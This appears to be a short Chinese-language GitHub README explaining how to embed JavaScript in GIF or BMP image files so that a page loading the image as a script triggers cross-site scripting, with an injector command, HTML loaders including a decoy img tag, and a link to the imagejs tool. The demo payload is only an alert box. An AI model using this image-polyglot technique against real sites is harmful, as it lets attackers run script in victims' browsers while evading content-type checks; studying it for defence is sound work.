


# Hide Javascript inside image file

在图片中隐藏有效的js代码，然后再页面中执行该图片，可以触发xss漏洞，这种方式触发xss,其js是按图片类型传输的，而不是按js类型传输，如下图：



## GIF 植入 js payload

运行: `python GIF_injector.py gif_xss.gif 'alert("xss with gif");'`

生成gif_xss.gif文件，包含xss payload

html页面中引入图片，执行js代码，参考如下:

```html
<html>
<head>
    <title>XSS Injectn into an image</title>
</head>
<body>
    <script src="gif_xss.gif"></script>
</body>
</html>
```

还可以加入`img`标签，迷惑对方

```
<html>
<head>
    <title>XSS Injectn into an image</title>
</head>
<body>
    </img>
    <script src="gif_xss.gif"></script>
</body>
</html>
```

safari 触发xss结果如下图:



## BMP 植入 js payload

方式同上

## [github imagejs](https://github.com/jklmnn/imagejs)

from [https://github.com/jklmnn/imagejs](https://github.com/jklmnn/imagejs)

支持输出文件: gif, bmp, webp, pnm, pgf
